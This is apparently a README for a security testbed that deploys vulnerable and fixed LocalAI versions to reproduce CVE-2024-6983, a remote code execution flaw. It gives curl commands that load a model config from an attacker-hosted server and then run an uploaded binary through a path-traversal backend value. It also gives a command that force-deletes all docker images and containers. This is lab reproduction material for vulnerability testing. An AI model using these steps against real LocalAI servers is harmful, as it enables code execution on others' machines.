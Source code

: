 # Mudler/LocalAI CVE-2024-6983

This directory contains the deployment config for LocalAI instances vulnerable and fixed to CVE-2024-6983. LocalAI versions below 2.19.4 are vulnerable to that remote code execution vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following two curl commands and the provided Python Script called server.py. You may need to install Flask and PyInstaller via pip through requirements.txt. Since this vulnerability requires hosting a YAML and an ELF file, the provided Python script will host these files. In a vulnerable environment, after the second curl request, you can see the created file under the /tmp/ directory.

Curl Requests:

```sh
# Run above Python script first after installing the requirements.
pip install -r requirements.txt
python server.py

# Upload the yaml and compiled Python file
curl http://localhost:8080/models/apply -X POST -H "Content-Type: application/json" -d '{"name":"life","config_url":"http://localhost:8000/model.yaml","id":""}'

# Trigger the uploaded app.bin file via the backend parameter.
curl http://localhost:8080/embeddings -X POST -H "Content-Type: application/json" -d '{"backend":"../../../../../../build/models/app.bin","model":"life","input":"hi"}'

# Validate the created file by checking the docker inside.
docker exec -it local-ai bash --> ls /tmp/
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```sh
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```sh
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.19.4-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.

## Vulnerable version
```sh
docker run -p 8080:8080 -e "DEBUG=true" --name local-ai --network host -ti localai/localai:v2.14.0-ffmpeg-core
```

The deployed service listens on `localhost:8080` after the docker completes its job.
